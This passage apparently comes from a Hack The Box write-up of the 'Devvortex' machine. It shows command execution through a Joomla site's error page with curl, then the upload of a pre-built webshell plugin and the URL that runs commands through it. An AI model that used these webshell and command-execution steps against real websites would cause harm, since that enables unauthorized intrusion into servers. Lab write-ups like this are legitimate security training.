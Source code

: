 ![](attachments/devvortex_11.png)

Then, let's try loading the error page.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://dev.devvortex.htb/notexist?bokchee=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

It works! I can run a command through error page.

##### Write a webshell plugin

From the base template of joomla plugin, I can edit it to perform as a webshell.

Here's the template:
https://docs.joomla.org/J4.x:Creating_a_Plugin_for_Joomla
We can start from here to create our own malicious plugin.

But also, we can use the pre-built one.
Here's the implementation of the method:
https://github.com/p0dalirius/Joomla-webshell-plugin
I downloaded the repository, and uploaded the zip file in `dist` directory.

Then, I can run the webshell with the following URL:
`http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id`
